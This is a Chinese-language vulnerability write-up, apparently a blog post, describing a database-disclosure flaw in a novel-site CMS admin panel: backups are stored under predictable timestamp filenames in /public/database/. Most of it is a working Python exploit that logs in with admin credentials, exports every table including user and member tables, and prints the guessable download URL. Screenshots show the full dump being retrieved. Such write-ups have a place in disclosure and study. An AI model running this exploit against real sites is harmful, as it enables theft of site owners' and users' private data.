 #### 漏洞详情： ####
后台可以直接备份数据库，备份后为.sql.gz文件(可以在设置里更改是否压缩)，文件名为time函数生成的时间戳，可直接爆破进行下载，这里先附上exp

    
    # !/usr/bin/python3
    # -*- coding:utf-8 -*-
    # author: Forthrglory
    import requests
    import time
    
    def getDatabase(url,username, password):
    session = requests.session()
    
    u = 'http://%s/admin/index/login.html' % (url)
    head = {
    'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8'
    }
    data = {
    'username': username,
    'password': password,
    'code': 1
    }
    session.post(u, data, headers = head)
    
    u = 'http://%s/admin/database/export.html' % (url)
    data = {
    'layTableCheckbox':'on',
    'tables[0]':'ky_ad',
    'tables[1]':'ky_addons',
    'tables[2]':'ky_bookshelf',
    'tables[3]':'ky_category',
    'tables[4]':'ky_collect',
    'tables[5]':'ky_comment',
    'tables[6]':'ky_config',
    'tables[7]':'ky_crontab',
    'tables[8]':'ky_link',
    'tables[9]':'ky_member',
    'tables[10]':'ky_menu',
    'tables[11]':'ky_news',
    'tables[12]':'ky_novel',
    'tables[13]':'ky_novel_chapter',
    'tables[14]':'ky_route',
    'tables[15]':'ky_slider',
    'tables[16]':'ky_template',
    'tables[17]':'ky_user',
    'tables[18]':'ky_user_menu'
    }
    t = time.strftime("%Y%m%d-%H%M%S", time.localtime())
    
    session.post(u, data = data)
    
    for i in range(0, 19):
    u2 = 'http://%s/admin/database/export.html?id=%s&start=0' % (url, str(i))
    session.get(u2)
    
    t = 'http://' + url + '/public/database/' + t + '-1.sql.gz'
    return t
    
    if __name__ == '__main__':
    u = '127.0.0.1'
    username = 'admin'
    password = 'admin'
    t = getDatabase(u, username, password)
    print(t)


运行代码，得到路径(默认生成路径为/public/database/，可在设置中修改)
![](后台数据泄露.assets/2Z9dpibMEs1PUcB.png)

直接访问下载
![](后台数据泄露.assets/kxcNeHhSqviyfpR.png)

可以看到所有数据库信息全在了
![](后台数据泄露.assets/p2VETuFUze3lDZS.png)

https://xz.aliyun.com/t/7486